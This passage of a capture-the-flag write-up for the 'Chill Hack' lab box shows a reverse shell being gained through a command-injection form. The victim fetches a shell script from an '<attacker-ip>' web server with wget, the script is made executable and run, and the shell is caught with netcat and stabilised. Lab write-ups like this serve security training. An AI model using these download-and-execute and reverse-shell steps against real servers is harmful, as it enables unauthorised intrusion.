 ## reverse shell

on my machine i started a websever.

```shell
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

and download on the victim.

```shell
└─$ curl -L -d "command=wget -O /tmp/shell.sh http://<attacker-ip>/shell.sh" http://chillhack.thm/secret/
```

setting the the permissions numeric because `+x` was not working.

```shell
└─$ curl -L -d "command=chmod 777 /tmp/shell.sh" http://chillhack.thm/secret/
```

as `ls` is not working i checked the permissions via the `stat` which was not filtered.

```shell
└─$ curl -L -d "command=stat -c %A /tmp/shell.sh" http://chillhack.thm/secret/

<h2 style="color:blue;">-rwxrwxrwx
```

i launched the script and got a reverse shell on my kali box.

```shell
└─$ curl -L -d "command=/tmp/shell.sh" http://chillhack.thm/secret/
```

```shell
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.1.199] from (UNKNOWN) [10.10.55.124] 54700
bash: cannot set terminal process group (1066): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/html/secret$
```

stabilize shell

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm

CTRL + Z
stty raw -echo; fg
```

## getting first user and user flag
